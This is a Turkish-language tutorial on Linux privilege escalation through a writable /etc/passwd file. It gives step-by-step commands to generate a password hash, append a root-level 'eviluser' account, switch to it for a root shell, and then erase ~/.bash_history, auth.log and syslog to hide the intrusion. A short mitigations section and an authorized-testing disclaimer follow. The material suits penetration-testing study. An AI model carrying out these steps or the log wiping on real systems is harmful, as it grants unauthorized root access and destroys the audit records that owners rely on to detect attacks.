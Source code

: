 ### Writable `/etc/passwd` Dosyası ile Privilege Escalation Rehberi

Linux sistemlerinde `/etc/passwd` dosyası, kullanıcı hesap bilgilerini içeren bir dosyadır. Geçmişte şifre hash'leri de bu dosyada tutulurdu, ancak modern sistemlerde şifre hash'leri `/etc/shadow` dosyasına taşınmıştır. Buna rağmen, `/etc/passwd` dosyasının yazılabilir olması ciddi bir güvenlik açığıdır ve privilege escalation (hak yükseltme) için kullanılabilir.

---

#### **1. Vulnerability Confirmation**
İlk olarak, `/etc/passwd` dosyasının yazılabilir olup olmadığını doğrulamalısınız.

```bash
ls -l /etc/passwd
```

Eğer sonuç şu şekildeyse, dosya yazılabilir durumdadır:

```bash
-rw-rw-r-- 1 root root 1234 Jan 15 12:34 /etc/passwd
```

- `rw-` dosyanın sahibi (`root`) için yazma yetkisi olduğunu gösterir.
- `rw-` gruplar için yazma yetkisi olduğunu gösterir.
- `r--` diğer kullanıcılar için yalnızca okuma yetkisi olduğunu gösterir.

Eğer kullanıcı yetkiniz bu dosyayı yazmaya izin veriyorsa, hak yükseltme yapılabilir.

---

#### **2. Yeni Kullanıcı Eklemek**
Hak yükseltme için bu dosyaya, root yetkilerine sahip bir kullanıcı eklenir.

##### 2.1. Yeni Şifre Hash'ini Oluşturmak
Yeni bir şifre için hash oluşturmanız gerekir. `openssl` veya `mkpasswd` komutlarını kullanabilirsiniz.

```bash
openssl passwd -1 -salt evilpassword mypassword
```

Örnek çıktı:

```plaintext
$1$evilpassword$C60KphG9vNqwVlnyJ9z9l0
```

Bu hash, şifresi `mypassword` olan bir kullanıcı için oluşturulmuştur.

##### 2.2. Yeni Kullanıcı Satırını Hazırlamak
`/etc/passwd` dosyasındaki kullanıcı satırlarının formatı şu şekildedir:

```plaintext
username:x:UID:GID:User Info:Home Directory:Shell
```

Hak yükseltme için root yetkilerine sahip bir kullanıcı şu şekilde eklenir:

```plaintext
eviluser:$1$evilpassword$C60KphG9vNqwVlnyJ9z9l0:0:0:Hacked Root:/root:/bin/bash
```

Bu satırdaki:

- `eviluser`: Yeni kullanıcı adı.
- `$1$evilpassword$C60KphG9vNqwVlnyJ9z9l0`: Hashlenmiş şifre.
- `0:0`: UID ve GID. Root yetkileri için her ikisi de `0` olmalıdır.
- `/root`: Kullanıcının home dizini.
- `/bin/bash`: Kullanıcının shell'i.

---

#### **3. `/etc/passwd` Dosyasını Düzenlemek**
Artık yeni kullanıcı satırını dosyaya ekleyebilirsiniz. Eğer sistemde `nano`, `vi` gibi bir editör varsa bunları kullanabilirsiniz:

```bash
nano /etc/passwd
```

Dosyanın sonuna aşağıdaki satırı ekleyin:

```plaintext
eviluser:$1$evilpassword$C60KphG9vNqwVlnyJ9z9l0:0:0:Hacked Root:/root:/bin/bash
```

Dosyayı kaydedin ve çıkın.

---

#### **4. Yeni Kullanıcı ile Root Yetkisi Almak**
Yeni kullanıcı ile sisteme giriş yapın ve root yetkilerini doğrulayın:

```bash
su eviluser
```

Şifreyi girin (`mypassword`). Eğer başarıyla root yetkileri aldıysanız, aşağıdaki gibi bir shell göreceksiniz:

```plaintext
root@target:~#
```

---

#### **5. Logları Temizlemek (Opsiyonel)**
Saldırı izlerini azaltmak için log dosyalarını temizlemek önemlidir.

- `~/.bash_history` dosyasını temizleyin:

```bash
> ~/.bash_history
```

- Sistem loglarını temizleyin (root yetkisiyle):

```bash
echo "" > /var/log/auth.log
echo "" > /var/log/syslog
```

---

#### **6. Önlemler**
Bu zafiyetin sistemde bulunmasını önlemek için aşağıdaki önlemler alınmalıdır:

1. `/etc/passwd` dosyasının yalnızca root tarafından yazılabilir olmasını sağlayın:

```bash
chmod 644 /etc/passwd
```

2. Kullanıcı izinlerini düzenli olarak kontrol edin:

```bash
find / -perm -2 -type f 2>/dev/null
```

Bu komut, sistemde herkes tarafından yazılabilir dosyaları listeler.

3. Güvenlik denetimleri gerçekleştirin ve bir IDS/IPS çözümü uygulayın.

---

#### **7. Örnek Senaryo**
- Hedef sistemde privilege escalation için gereken izinler kontrol edilir.
- `/etc/passwd` yazılabilir bulunur.
- Yeni bir kullanıcı eklenir ve root yetkisi alınır.
- Loglar temizlenir ve erişim kapatılır.

---

Bu yöntem, bir sistemde ciddi bir güvenlik açığından yararlanır. Yalnızca izinli testlerde kullanılmalı ve etik hacking kuralları çerçevesinde gerçekleştirilmelidir.

